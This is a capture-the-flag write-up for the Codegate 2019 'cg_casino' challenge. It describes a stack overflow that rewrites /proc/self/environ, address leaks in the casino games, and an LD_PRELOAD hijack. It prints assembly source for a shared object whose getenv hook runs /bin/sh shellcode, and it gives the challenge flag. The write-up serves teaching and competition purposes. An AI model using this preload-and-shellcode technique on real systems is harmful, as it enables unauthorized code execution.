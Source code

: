 # Codegate CTF 2019 Preliminary
## cg_casino
* `CODEGATE{24cb1590e54e43b254c99404e4f86543}`
* [hook.S](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/hook.S)
* [flag.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/flag.py)
### The challege
* The files
```
.
├── Dockerfile
├── docker-compose.yml
├── libc.so.6
├── share
│   ├── cg_casino
│   └── flag_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
├── tmp
└── xinetd
```
* Menu
```
$$$$$$$$$$$$$$$$$$$$$$$$$$$
$$$$$$$  CG CASINO  $$$$$$$
$$$$$$$$$$$$$$$$$$$$$$$$$$$
1) put voucher
2) merge voucher
3) lotto
4) up down game
5) slot machine
6) exit
>
```
We can use `put voucher` to named a new file, `merge voucher` will read `0x1000` byte from the file by giving file name and write it to the new file. There are also some meaningless-seemed gambling games.
### Control the content of file
We are not able to control the content of file by opening `/dev/stdin` or `/proc/self/fd/0` due to the docker configuration. That means we need to find out some file already existed and its content is controllable.
There are some file we can think about it under `/proc/self/`: mem, stack, environ, etc.
The `/proc/self/environ` is interesting in this case, because there are `**envp` on the stack and they are point to the strings of `environ`, and there is a buffer overflow occurred by `scanf` in the `main` function of the binary.
We test whether the content of `/proc/self/environ` will changed by overwrite the `environ` on the stack, the result:
```shell
gdb-peda$ x/s 0x7ffc68771274
0x7ffc68771274:	'a' <repeats 16 times>
gdb-peda$ cat /proc/106464/environ
aaaaaaaaaaaaaaaabin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=58f0e86c0c81ERASER1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
```
That's awesome!
### Information leak
There is inforamtion leak by input non numeric chracter when you play `lotto`, but only leak the address of libc at first. When you play `slot machine` first, then play `lotto`, you can leak the address of stack this time.
### Exploit
For now we are able to upload a 0x1000-byte file. We found `slot machine` will call `system("/usr/local/clear")`, So we decided to upload `hook.so` file, hook the function that will be called by `/usr/bin/clear`.
* hook.S
```nasm=
; nasm -f elf64 hook.S -o hook.o && ld --shared hook.o -o hook.so
; ubuntu 16.04 GNU ld (GNU Binutils for Ubuntu) 2.26.1
[BITS 64]
	global getenv:function
	section .text
getenv:
	mov rax, 0x68732f6e69622f
	push rax
	mov rdi, rsp
	xor esi, esi
	push 0x3b
	pop rax
	cdq
	syscall
```
There was an interesting thing, when we linked it with `ld` in ubuntu 18.04, the size of ELF came out was too big, but with the old version of `ld` in ubuntu 16.04 the size will be small enought. Awesome again!

Upload `hook.so` and overwrite `LD_PRELOAD=./hook.so` then call `slot machine` to trigger `system("/usr/local/clear")`, `getenv` will be hooked by `hook.so` and execute our shellcode.
* [flag.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/codegate/cg_casino/flag.py)
### The flag: `CODEGATE{24cb1590e54e43b254c99404e4f86543}`